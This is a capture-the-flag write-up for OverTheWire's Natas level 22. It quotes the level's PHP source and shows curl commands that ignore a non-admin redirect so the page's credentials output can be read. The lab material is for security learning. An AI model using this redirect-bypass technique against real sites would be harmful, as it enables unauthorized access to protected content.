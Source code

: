 # This is a write-up for Natas - level 22

Upon inspecting the php code, we encounter

```php
<?php
    if(array_key_exists("revelio", $_GET)) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas23\n";
    print "Password: <censored></pre>";
    }
?>
```

This makes me believe I can simply set the revelio parameter in my url bar and get the answer. For example like such:

http://natas22.natas.labs.overthewire.org/?revelio=5

The number 5 has no significance, I just picked something. It only matters that the array key exists.

This doesn't work, however. This is due to the below:

```php
<?php
session_start();

if(array_key_exists("revelio", $_GET)) {
    // only admins can reveal the password
    if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
    header("Location: /");
    }
}
?>
```

The '!' is a negation, so basically if we don't have admin=1 in the session parameters, we are redirected to the
home page, denoted by '/'

A common workaround for redirects is sending a curl request. It can be done like this

curl -u natas22:<pwd> --get -d "revelio=5" http://natas22.natas.labs.overthewire.org
curl -u natas22:<pwd> http://natas22.natas.labs.overthewire.org/?revelio=5




